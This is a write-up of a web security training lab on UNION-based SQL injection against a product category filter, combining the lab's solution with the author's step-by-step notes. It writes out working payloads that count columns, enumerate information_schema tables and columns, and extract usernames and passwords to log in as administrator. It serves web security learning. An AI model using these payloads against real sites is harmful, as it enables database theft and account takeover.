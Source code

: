 ![Lab title](image.png)

Lab: SQL injection attack, listing the database contents on non-Oracle databases

Solution:   
    
    1. Use Burp Suite to intercept and modify the request that sets the product category filter.

    2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter:
    '+UNION+SELECT+'abc','def'--

    3. Use the following payload to retrieve the list of tables in the database:
    '+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
    Find the name of the table containing user credentials.

    4. Use the following payload (replacing the table name) to retrieve the details of the columns in the table:
    '+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--
    Find the names of the columns containing usernames and passwords.

    5. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:
    '+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--
    Find the password for the administrator user, and use it to log in.

Step to solve: [Before solving the lab use foxyproxy extension and add Burp Suite proxy]

    1. Open Burp Suite and access the LAB.
    2. Connect the proxy and turn on intercept.
    3. Now select a catergory and reload the page then send the request to the repeater and turn off intercept.
    4. Now we will find out number of column and what type of data it's storing. 
        for column, use [Category]'+order+by+n+-- (n=1,2,3...n)
        if it's storing data or not
            [Category]'+union+select+null,+null+--
        if it's storing text data or not
            [Category]'+union+select+'A',+'B'+--        `
    5. To retrieve table data 
            [Category]'union+select+table_name,+null+from+information_schema.tables+--
        now copy the url and paste on the browser to show available table data
    6. save a user data from the table for later use
    "users_arjokz"
        now retrieve column data
            [Category]'union+select+column_name,+null+from+information_schema.columns+where+table_name='users_arjokz'+--

            then send it and open it in a new tab, we can now see the column names. 
    7. Now to retrieve username and password, our union attack will be like this
            [Category]'union+select+username_qlijnh,+password_rqddob+from+users_arjokz+--

            now send it and open it in a new tab. You will find administrator and it's password. So, save it and log in with it.

![solved](image-1.png)